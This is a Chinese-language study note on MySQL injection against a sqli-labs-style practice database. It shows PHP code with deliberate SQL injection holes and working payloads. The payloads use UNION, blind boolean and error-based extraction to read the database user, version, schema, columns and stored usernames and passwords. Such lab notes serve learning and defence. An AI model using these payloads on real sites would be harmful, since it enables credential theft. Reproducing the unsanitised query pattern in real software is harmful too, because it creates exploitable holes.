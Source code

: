 #MYSQL注入笔记
##数据库信息
设数据库```security```里有如下```users```表。

```
mysql> desc users;
+----------+-------------+------+-----+---------+----------------+
| Field    | Type        | Null | Key | Default | Extra          |
+----------+-------------+------+-----+---------+----------------+
| id       | int(3)      | NO   | PRI | NULL    | auto_increment |
| username | varchar(20) | NO   |     | NULL    |                |
| password | varchar(20) | NO   |     | NULL    |                |
+----------+-------------+------+-----+---------+----------------+
3 rows in set (0.00 sec)
```

##构造注入SQL之一【GET - ErrorBased - IntegerBased】
###1. 漏洞代码

大致PHP代码如下

```
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

if($row) {
	echo 'Your Login name:'. $row['username'];
	echo "<br>";
	echo 'Your Password:' .$row['password'];
} else {
	print_r(mysql_error());
}
```
通过提交```?id=1 AND 1=1```和```?id=1 AND 1=2```来判断

###2. 猜解字段数

通过``` UNION ALL SELECT NULL```中的```NULL```来猜解表的字段数，例如对于```users```表采用```SELECT *```的话就需要把SQL构造成``` UNION ALL SELECT NULL, NULL, NULL#```，如果采用```SELECT username, password```就只需要``` UNION ALL SELECT NULL, NULL#```就能判断出了。因此如果程序中写的不是```SELECT *```的话，猜解出来的字段数与实际可能不太一样。

###3. 获取MySQL信息

如果想要获取数据库的一些信息可以利用已经显示出来的字段，在构造注入代码的时候将这些信息替换到已经显示的字段里。

例如对于```SELECT * FROM users WHERE id=1```，得到

```
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)
```

对于```SELECT * FROM users WHERE id=1 UNION ALL SELECT NULL, CURRENT_USER(), NULL LIMIT 0,1;```，还是得到一样的结果。说好的数据库信息呢？

```
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    1 | Dumb     | Dumb     |
+------+----------+----------+
1 row in set (0.00 sec)
```

所以还要对```SQL```语句稍加改造```SELECT * FROM users WHERE id=-1 UNION ALL SELECT NULL, CURRENT_USER(), NULL LIMIT 0,1;```就可以得到想要的结果

```
+------+----------------+----------+
| id   | username       | password |
+------+----------------+----------+
| NULL | sqli@localhost | NULL     |
+------+----------------+----------+
1 row in set (0.00 sec)
```
因此如果网页上展示了username，那么就能直接得到当前连接数据库的用户名。因此我们提交的构造代码关键部分为```-1 UNION ALL SELECT NULL, CURRENT_USER(), NULL```。另外需要注意的是构造出来的字段数要与原始正常```SQL```字段数相同。

* 获取当前连接数据库的用户名 ```-1 UNION ALL SELECT NULL, CURRENT_USER(), NULL```
* 获取当前数据库的名字	```-1 UNION ALL SELECT NULL, DATABASE(), NULL```
* 获取当前数据库的版本号 ```-1 UNION ALL SELECT NULL, VERSION(), NULL```
* 获取当前服务器上数据库数量 ```-1 UNION ALL SELECT NULL, (SELECT COUNT(*) FROM information_schema.SCHEMATA), NULL```
* 如果不能直接通过网页得到数据库数量，可以通过```1 AND ORD(MID((SELECT IFNULL(CAST(COUNT(DISTINCT(schema_name)) AS CHAR),CHAR(32)) FROM information_schema.SCHEMATA),1,1)) > ord('1') ```来猜解。
* 猜解表名```1 AND ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS CHAR),CHAR(32))) FROM information_schema.SCHEMATA LIMIT 0,1),1,1)) > ord('a')``` 当猜解的字母的值只有```>=0```成功时，表示该表名猜解完成。（其中```LIMIT x,y```中```x```表示从第几条记录开始查询，```y```表示最多要查询多少条记录）。通过变动```MID```和```LIMIT```的参数就可以把所有表名猜解完。
* 猜解表的字段数 ```-1 UNION ALL SELECT NULL, (SELECT COUNT(*) FROM information_schema.COLUMNS where table_name='users' AND table_schema='security'), NULL``` 或 ```-1 UNION ALL SELECT NULL, IFNULL(CAST(COUNT(*) AS CHAR),CHAR(32)), NULL FROM information_schema.COLUMNS WHERE table_name=CHAR(117,115,101,114,115) AND table_schema=CHAR(115,101,99,117,114,105,116,121)```
* 逐个猜解字段 ```-1 UNION ALL SELECT NULL, CONCAT(column_name, ' ', column_type), NULL FROM information_schema.COLUMNS where table_name='users' AND table_schema='security' LIMIT 0,1 ``` 或 ```-1 UNION ALL SELECT NULL, CONCAT(IFNULL(CAST(column_name AS CHAR),CHAR(32)), ' ', IFNULL(CAST(column_type AS CHAR),CHAR(32))), NULL FROM information_schema.COLUMNS WHERE table_name=CHAR(117,115,101,114,115) AND table_schema=CHAR(115,101,99,117,114,105,116,121) LIMIT 0,1```
* 猜解记录数```-1 UNION ALL SELECT NULL, IFNULL(CAST(COUNT(*) AS CHAR),CHAR(32)), NULL FROM security.users```
* 逐个获取字段```-1 UNION ALL SELECT NULL, CONCAT(IFNULL(CAST(id AS CHAR),CHAR(32)), ' ',IFNULL(CAST(username AS CHAR),CHAR(32)), ' ', IFNULL(CAST(password AS CHAR),CHAR(32))), NULL FROM security.users LIMIT 0,1```

##构造注入SQL之二【GET - ErrorBased - SingleQuotes - String】
###1.漏洞代码
```
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

if($row) {
	echo 'Your Login name:'. $row['username'];
	echo "<br>";
	echo 'Your Password:' .$row['password'];
} else {
	print_r(mysql_error());
}
```

###2.注入思路
通过提交```?id=1' AND '1'='1```和```?id=1' AND '1'='2```来判断。
其它与IntegerBased相似。如获取当前数据库的名字为```-1' UNION ALL SELECT NULL, DATABASE(), NULL AND '1'='```


##构造SQL注入之三
###1.漏洞代码
```
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

if($row) {
	echo 'You are in...........';
}
else {
	print_r(mysql_error());	
}
```
本代码的特点是不会在网页上输出任何字段值。
###2.注入思路
由于程序代码并不在网页上显示任何字段，因此我们如果想要得到数据库的一些信息得另外想办法。有一个方法是利用程序执行SQL时产生的错误会显示到网页上这一点，将要显示的信息嵌入错误信息里。对于MySQL利用的模板代码为```select count(*), CONCAT(CURRENT_USER(), FLOOR(RAND(0)*2)) x from information_schema.tables group by x;```会得到类似```ERROR 1062 (23000): Duplicate entry 'root@localhost1' for key 'group_key'```的错误提示。

